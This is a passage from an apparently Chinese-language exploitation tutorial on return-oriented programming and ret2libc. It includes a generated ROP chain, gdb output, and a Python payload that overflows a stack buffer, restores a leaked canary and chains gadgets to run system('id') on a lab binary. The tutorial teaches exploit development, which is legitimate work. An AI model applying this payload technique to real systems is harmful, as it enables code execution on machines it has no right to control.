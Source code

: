 ```
rop += rebase_0(0x000000000002bb39) # 0x000000000002bb39: pop rsi; ret; 
rop += rebase_0(0x00000000001e7008)
rop += rebase_0(0x000000000010d37d) # 0x000000000010d37d: pop rdx; ret; 
rop += rebase_0(0x00000000001e7008)
rop += rebase_0(0x0000000000043067) # 0x0000000000043067: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x000000000008ed72) # 0x000000000008ed72: syscall; ret; 
print(rop)
[INFO] rop chain generated!
```

  
  
如您所见，该工具为我们创建了完整的 ROP 链，以便我们执行系统调用 ( execve("id"))。我们需要做的就是在运行时将变量设置IMAGE_BASE_0为 libc 的基址。遗憾的是，这非常有限，该工具无法为我们需要的所有内容创建 ROP 链，而且由于不同程序和不同 bug 的情况各不相同，因此它也不是完全可靠的。  
  
返回 Libc（ret2libc）  
  
让我们练习一下本博客中介绍的第一个示例，这次我们不会使用该-zexecstack选项来编译它。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrCPVibPM7rvwsfFJG94IEuWJ4mxIueZ5gMiccUzkBGShXue5PCzMIN0wA/640?wx_fmt=png&from=appmsg "")  
  
请注意，第一次使用该-zexecstack选项进行编译时，利用成功，并且 shellcode 成功执行，但第二次，当我们没有使用该选项时，利用失败，并且 shellcode 没有执行。  
  
我们需要更改代码执行策略，不再让程序跳转执行注入到堆栈中的代码，而是让它返回到 libc 并运行系统函数，这样我们就可以在系统上运行命令了。系统函数只接受一个参数，即以空字符结尾的字符串形式的命令。根据 Linux 调用约定，任何函数调用的第一个参数都应该通过 rdi 寄存器传递，因此我们需要一个 ROP 小工具将命令地址设置为 rdi，并且一旦这个小工具返回，保存的指令指针应该是另一个调用系统函数的小工具。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXreHdibzibNm1tbzGtW8YwniaJwCicnEMib1OhE2tIwhVGba2NmNMyfQJR45w/640?wx_fmt=png&from=appmsg "")  
  
太好了。使用Peda searchmem命令，我们在 C 库中找到了字符串“id”，我们将使用它作为系统函数的参数。  
  

```
gdb-peda$ x/s 0x7ffff7f5a078
0x7ffff7f5a078: &#34;id&#34;
```

  
  
好的，现在我们需要一个 ROP 小工具来将此指针设置为 RDI 寄存器。典型的 ROP 小工具是pop rdi; ret，因此我们将用该小工具的地址替换指令指针，并将命令地址放在它旁边。现在，我们准备调用系统函数。我们将遵循相同的方法：我们将系统函数放在堆栈上并使用小pop rax; ret工具来检索它，然后我们将使用call rax小工具。但是随后进程将崩溃，因为一旦系统函数完成并返回，下一个指令指针将是一个不受我们控制的地址。因此，我们必须随后调用退出函数以正确关闭程序。幸运的是，我找到了一个调用寄存器（call rax）然后调用退出函数的小工具，而我们不必自己执行此操作。  
  

```
(gdb) x/3i0x7ffff7dd7d66 
   0x7ffff7dd7d66 <__libc_start_call_main+118>: call *%rax
   0x7ffff7dd7d68 <__libc_start_call_main+120>: mov %eax,%edi
   0x7ffff7dd7d6a <__libc_start_call_main+122>: call 0x7ffff7df0280 <__GI_exit>
(gdb)
```

  
  
我们构建 ROP 链如下：  
  

```
def hijack_exec(p: Popen, canary):
    payload = b&#34;&#34;
    payload += b&#34;A&#34; * 0x112                               # Fills the stack frame
    payload += struct.pack( &#34;<Q&#34;, canary ) # Places the correct canary value 
    payload += b&#34;B&#34; * 0x8                                 # Base pointer
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7dd8205 ) # pop rdi; ret
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7f5a078 ) # The command address ( id )
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7df1067 ) # pop rax; ret
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7e008f0 ) # system function address
    payload += struct.pack( &#34;<Q&#34;, 0x7ffff7dd7d66 ) # call rax ; system( &#34;id&#34; ); exit( 0 )

    p.stdin.write( b&#34;1\n&#34; )
    p.stdin.write( payload + b&#34;\n&#34; )
```
